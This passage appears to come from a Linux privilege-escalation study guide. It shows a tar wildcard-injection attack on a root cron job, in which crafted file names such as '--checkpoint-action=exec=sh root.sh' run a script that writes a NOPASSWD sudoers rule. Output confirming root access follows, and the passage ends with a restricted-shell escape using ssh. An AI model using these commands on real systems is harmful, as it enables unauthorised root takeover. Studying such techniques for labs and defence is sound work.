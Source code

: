 We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

    echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
    echo "" > "--checkpoint-action=exec=sh root.sh"
    echo "" > --checkpoint=1

We can check and see that the necessary files were created.

    ls -la
    
    total 56
    drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
    drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
    -rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
    -rw-rw-r--  1 user        user           1 Aug 31 23:11 --checkpoint=1
    -rw-rw-r--  1 user        user           1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
    drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
    drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
    -rw-rw-r--  1 user        user          60 Aug 31 23:11 root.sh

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

      sudo -l
    
    Matching Defaults entries for cliff.moore on NIX02:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User cliff.moore may run the following commands on NIX02:
        (root) NOPASSWD: ALL


<a id="orge65b171"></a>

## Escaping Restricted Shell

A restricted shell is a type of shell that limits the user's ability to execute commands. In a restricted shell, the user is only allowed to execute a specific set of commands or only allowed to execute commands in specific directories.

`Exemple Restricted Shell`

1.  **RBASH**
    [Restricted Bourne shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)(`rbash`) is a restricted version of the Bourne shell, a standard command-line interpreter in
    Linux which limits the user's ability to use certain features of the Bourne shell, such as changing directories,
    setting or modifying environment variables, and executing commands in other directories. It is often used to
    provide a safe and controlled environment for users who may accidentally or intentionally damage the system.
    Utils command:
    
        compgen -c # List all possible usage command
        ssh user@server_name-t "bash --noprofile" #change rbash to bash
    